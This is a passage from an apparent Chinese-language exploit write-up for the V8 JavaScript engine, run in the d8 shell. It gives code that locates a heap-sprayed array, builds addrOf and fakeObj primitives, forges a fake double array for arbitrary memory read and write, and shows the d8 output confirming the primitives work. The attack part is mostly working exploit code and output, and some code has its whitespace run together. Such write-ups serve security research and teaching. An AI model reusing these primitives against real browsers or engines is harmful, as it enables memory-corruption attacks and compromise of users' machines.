   
接下来，我们需要找到它相对于spray2数组的位置：  
  
```
functionlocateSpray3() {// We have an OOB with spray2. Locate spray3.// Dump the memorylet spray64 = new BigUint64Array(p.spray2.length);for (let i = 0; i < 10400; i++) {    spray64[i] = floatToUint64(p.spray2[i]);  }  p.spray3[0] = 1337.42;let index_changed = -1;for (let i = 0; i < 10400; i++) {    if (spray64[i] != floatToUint64(p.spray2[i])) {      index_changed = i;      break;    }  }if (index_changed == -1) {    returnfalse;  }  p.spray3_index = index_changed;  print(`spray3_index = 0x${p.spray3_index}`);returntrue;}
```  
  
  
这使我们处于经典的利用场景中，其中PACKED_DOUBLE_ELEMENTS数组可以控制数组的内容PACKED_ELEMENTS：  
  
```
functionbuildAddrofFakeobj() {  p.addrOf = (obj) => {    p.spray3[0] = obj;    returnNumber(floatToUint64(p.spray2[p.spray3_index]) >> 32n) - 1;  };  p.fakeObj = (addr) => {    p.spray2[p.spray3_index] = uint64ToFloat(BigInt(addr) << 32n);    return p.spray3[0];  };  print("addrOf() and fakeObj() ready");returntrue;}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDER1nGbcM1GfUQy2j42Px75y34UzKDICcSS24a7Cas9BIyhSialwLfCz2Q/640?wx_fmt=png&from=appmsg "")  
  
通常在这个阶段，大多数漏洞利用都会转向 WebAssembly，以实现可靠的代码任意读写。但是，由于我希望继续留在d8环境中，因此我构造了一个伪造的对象：  
  
```
functionbuildArbitraryRw() {// We will now use the spray2 (because we know its address) to make a fake objconst fakeobj_addr = p.spray2_addr + 0x100 + 1;const fakeobj_index = 29;  print(`fakeobj_addr = 0x${fakeobj_addr.toString(16)}`);// Create a helper to set WORD valuesfunctionfakeObjSet(uint32_index, uint32_value) {    let uint64_index = fakeobj_index + Math.trunc(uint32_index / 2);    let uint64_value = floatToUint64(p.spray2[uint64_index]);    if (uint32_index & 1) {      uint64_value = (uint64_value & 0xFFFFFFFFn) | (BigInt(uint32_value) << 32n);    } else {      uint64_value = (uint64_value & 0xFFFFFFFF00000000n) | BigInt(uint32_value);    }    p.spray2[uint64_index] = uint64ToFloat(uint64_value);  }  fakeObjSet(0, 0x0004cee5n); // Map[16](PACKED_DOUBLE_ELEMENTS)  fakeObjSet(1, 0x000007bdn); // properties  fakeObjSet(2, 0x00000001n); // elements  fakeObjSet(3, 0xf0000000n); // length << 1// Build the arbitrary read-write  p.arbObj = p.fakeObj(fakeobj_addr);// % DebugPrint(p.arbObj);  p.arbRead = (addr) => {    return floatToUint64(p.arbObj[Math.trunc(addr / 8) - 1]);  }  p.arbWrite = (addr, value) => {    p.arbObj[Math.trunc(addr / 8) - 1] = uint64ToFloat(BigInt(value));  }returntrue;}
```  
  
  
创建一个PACKED_DOUBLE_ELEMENTS大小为0x78000000且从沙盒偏移量 0 开始的数组，足以满足大多数用例的需求。让我们进行一个快速测试，验证新的原语是否正常工作：  
  
```
let spray_addr = p.addrOf(p.spray);print(`spray_addr = 0x${spray_addr.toString(16)}`);for (let i = 0; i < p.spray.length; i++) {  p.spray[i] = 0;}print("Call arbWrite(spray_addr + 0x100, 0xdeadbeefcafecafen)");p.arbWrite(spray_addr + 0x100, 0xdeadbeefcafecafen);let value_read = p.arbRead(spray_addr + 0x100);print(`arbRead(spray_addr + 0x100) = 0x${value_read.toString(16)}`);for (let i = 0; i < 100; i++) {  const value = floatToUint64(p.spray[i]);if (value != 0) {    print(`spray[${i}] = ${value.toString(16)}`)  }}
```  
  
  
输出表明任意读写操作成功：  
  
```
$ out/x64.release/d8 --allow-natives-syntax --expose-gc poc.jsFound the hash 0xaac!The object at index962has the hash 0xaacspray2_addr = 0x14b1f0spray2_length_addr = 0x14b204spray2.length = 0x20000spray3_index = 0x10167addrOf() and fakeObj() readyfakeobj_addr = 0x14b2f1spray_addr = 0x1488c0Call arbWrite(spray_addr + 0x100, 0xdeadbeefcafecafen)arbRead(spray_addr + 0x100) = 0xdeadbeefcafecafespray[29] = deadbeefcafecafe
```  
  